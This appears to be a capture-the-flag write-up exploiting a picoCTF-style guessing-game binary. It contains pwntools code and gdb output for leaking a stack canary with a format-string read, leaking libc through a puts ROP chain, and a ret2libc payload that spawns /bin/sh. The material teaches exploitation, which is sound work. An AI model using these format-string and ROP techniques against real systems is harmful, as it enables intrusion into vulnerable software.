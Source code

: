 
## Guess the number

From the source code, we know the number is calculated with ``rand`` address.

```python
(rand % 4096) + 1
```

The address might change when the program starts everytime, so we could search the number in range *[-4096, 4096]*.

## Disassemble the program

Run ``radare2`` to disassemble the program

```bash
 r2 ./vuln
```

Execute ``pd $s > vuln.asm`` in r2, exam output *vuln.asm*, the canary is loaded from ``gs:[0x14]``, which stored a random generated number, into ``[ebp-0xc]``. Before the function returns, the canary is checked and call ``__stack_chk_fail_local`` on failed. The canary changes everytime the program start running, but the location on stack is fixed, so we need to find the canary address.

```asm
0x08048783      65a114000000   mov eax, dword gs:[0x14]
0x08048789      8945f4         mov dword [ebp - 0xc], eax
0x0804878c      31c0           xor eax, eax
...
0x080487e9      8b45f4         mov eax, dword [ebp - 0xc]
0x080487ec      653305140000.  xor eax, dword gs:[0x14]
0x080487f3      7405           je 0x80487fa
0x080487f5      e816010000     call sym.__stack_chk_fail_local
0x080487fa      8b5dfc         mov ebx, dword [ebp - 4]
0x080487fd      c9             leave
0x080487fe      c3             ret
```

## Find canary

The winner name buffer allow us to input something, use the ``printf`` format string to print positional parameters, '%N$lx' for the Nth parameter.

```python
num = None
for i in range(1, 200):
    if num is None:
        num = must_guess(pr)
    else:
        pr.sendlineafter("What number would you like to guess?\n", str(num))
    pr.readline()
    pr.sendlineafter("New winner!\nName? ", 'XXX %{}$lx'.format(i))
    print(i, pr.readline())
```

In the output, several lines suspicious, like 20th, 119th and 166th.

```bash
...
18 b'Congrats: XXX 0\n'
19 b'Congrats: XXX 1\n'
20 b'Congrats: XXX 1cdadcae\n'   canary?
21 b'Congrats: XXX 79804f\n'
22 b'Congrats: XXX fffff7e0\n'
...
116 b'Congrats: XXX f7f69d20\n'
117 b'Congrats: XXX 1c\n'
118 b'Congrats: XXX ff8e5238\n'
119 b'Congrats: XXX 1fc74300\n'  canary?
120 b'Congrats: XXX f7f69d20\n'
121 b'Congrats: XXX a\n'
...
164 b'Congrats: XXX 0\n'
165 b'Congrats: XXX 73fe43f7\n'
166 b'Congrats: XXX db4605e7\n'   canary?
167 b'Congrats: XXX 0\n'
...
```

Run the program from gdb, set a breakpoint at *0x080487e9*, where to load the prestored canary value into *eax*.

```bash
pwndbg> b *0x080487e9
Breakpoint 1 at 0x80487e9
```
By checking the suspicious lines, the 119th looks like what we are looking for.

```bash
What number would you like to guess?
-2815
Congrats! You win! Your prize is this print statement!

New winner!
Name? %119$lx
Congrats: 9ef1d800
```

Execute one step forward and check the value in *eax*. which means the value at 119th indeed is the canary value. 

```bash
pwndbg> si
0x080487ec in win ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────────────────────────────────────────────────────
*EAX  0x9ef1d800
 EBX  0x8049fbc (_GLOBAL_OFFSET_TABLE_) —▸ 0x8049ec4 (_DYNAMIC) ◂— 0x1
 ECX  0xffffffff
 EDX  0xffffffff
 EDI  0xf7edc000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 ESI  0xf7edc000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 EBP  0xff812258 —▸ 0xff812278 ◂— 0x0
 ESP  0xff812040 ◂— 0x1
*EIP  0x80487ec (win+126) ◂— xor    eax, dword ptr gs:[0x14]
──────────────────────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────────────────────
   0x80487e9 <win+123>    mov    eax, dword ptr [ebp - 0xc]
 ► 0x80487ec <win+126>    xor    eax, dword ptr gs:[0x14]
   0x80487f3 <win+133>    je     win+140 <win+140>
    ↓
   0x80487fa <win+140>    mov    ebx, dword ptr [ebp - 4]
   0x80487fd <win+143>    leave  
   0x80487fe <win+144>    ret    
 
   0x80487ff <main>       lea    ecx, [esp + 4]
   0x8048803 <main+4>     and    esp, 0xfffffff0
   0x8048806 <main+7>     push   dword ptr [ecx - 4]
   0x8048809 <main+10>    push   ebp
   0x804880a <main+11>    mov    ebp, esp
```

## Find EIP address

We need to find EIP address to figure out how many padding do we need.
Run the program in ``gdb``, set a breakpoint at *leave* instruction in ``win``, feed it 100 'A'.

```bash
pwndbg> b *0x080487fd
Breakpoint 1 at 0x80487fd
pwndbg> r
Starting program: /home/zlynch-picoctf/vuln 
warning: Error disabling address space randomization: Operation not permitted
Welcome to my guessing game!
Version: 2

What number would you like to guess?
-2815
Congrats! You win! Your prize is this print statement!

New winner!
Name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Now it breaks, check the first 32 words at the top of the stack. The *0x41414141* block starts at *0xffce1d7c*, so we know this is where the buffer starts.

```bash
pwndbg> x/32wx $esp
0xffce1d70:     0x00000001      0xfffff501      0xfffff501      0x41414141
0xffce1d80:     0x41414141      0x41414141      0x41414141      0x41414141
0xffce1d90:     0x41414141      0x41414141      0x41414141      0x41414141
0xffce1da0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffce1db0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffce1dc0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffce1dd0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffce1de0:     0x00000000      0x00000000      0x00000000      0x00000000
```

Use ``info frame`` to find out where EIP is. *eip at 0xffce1f8c* in *saved registers* section tell us exactly what we are looking for.

```bash
pwndbg> info frame
Stack level 0, frame at 0xffce1f90:
 eip = 0x80487fd in win; saved eip = 0x804888c
 called by frame at 0xffce1fc0
 Arglist at 0xffce1f88, args: 
 Locals at 0xffce1f88, Previous frame's sp is 0xffce1f90
 Saved registers:
  ebx at 0xffce1f84, ebp at 0xffce1f88, eip at 0xffce1f8c
```

By calculating the distance between EIP address and buffer address we know the padding is *528*. The buffer size is 512 bytes and canary is 4 bytes, so we need another 12 bytes of padding before EIP.

```bash
pwndbg> p/d 0xffce1f8c-0xffce1d7c 
$1 = 528
```

We need to add 12 bytes padding to get to EIP after canary.


## Find version of libc 

Now we need to call ``puts`` to print the address of itself, the payload would be 

```padding(512bytes) + canary + padding(12bytes) + puts plt address + win address + puts got address```

Find address of ``puts`` on server by running the script. 

```python
elf = pwn.ELF(target, False)
payload = b'A' * 512 + pwn.p32(canary) + b'B'*12
payload += pwn.p32(elf.plt['puts'])
payload += pwn.p32(elf.sym['win'])
payload += pwn.p32(elf.got['puts'])
pr.sendlineafter("What number would you like to guess?\n", str(num))
pr.sendlineafter("New winner!\nName? ", payload)
pr.readline()
pr.readline()
puts_addr = pwn.u32(pr.readline()[:4])
```

With the address we found matches using website [libc database search](https://libc.blukat.me/?q=puts%3A0xf7dab3d0&l=libc6-i386_2.27-3ubuntu1.2_amd64)

```html
Matches
libc6-i386_2.27-3ubuntu1.2_amd64
```

Find ``system`` offset and `str_bin_sh` offset from [libc6-i386_2.27-3ubuntu1.2_amd64](https://libc.blukat.me/d/libc6-i386_2.27-3ubuntu1.2_amd64.symbols). Then the addresses could be calculated.

```python
libc_base = puts_addr - 0x673d0
sys_addr = libc_base + 0x3cd80
binsh_addr = libc_base + 0x17bb8f
```

## Get shell

To get shell we need to call ``system`` with argument ``/bin/sh``. Again as ``win`` has been called when we try to find address of ``puts``, now we just send the payload when winner name is asked. 
The payload follow format 

```padding(512bytes) + canary + padding(12bytes) + system address + win address + string bin sh address```

```python
payload = b'A' * 512 + pwn.p32(canary) + b'B'*12
payload += pwn.p32(sys_addr)
payload += pwn.p32(elf.sym['win'])
payload += pwn.p32(binsh_addr)
```

Finally, combine them all to get shell and get the flag. 
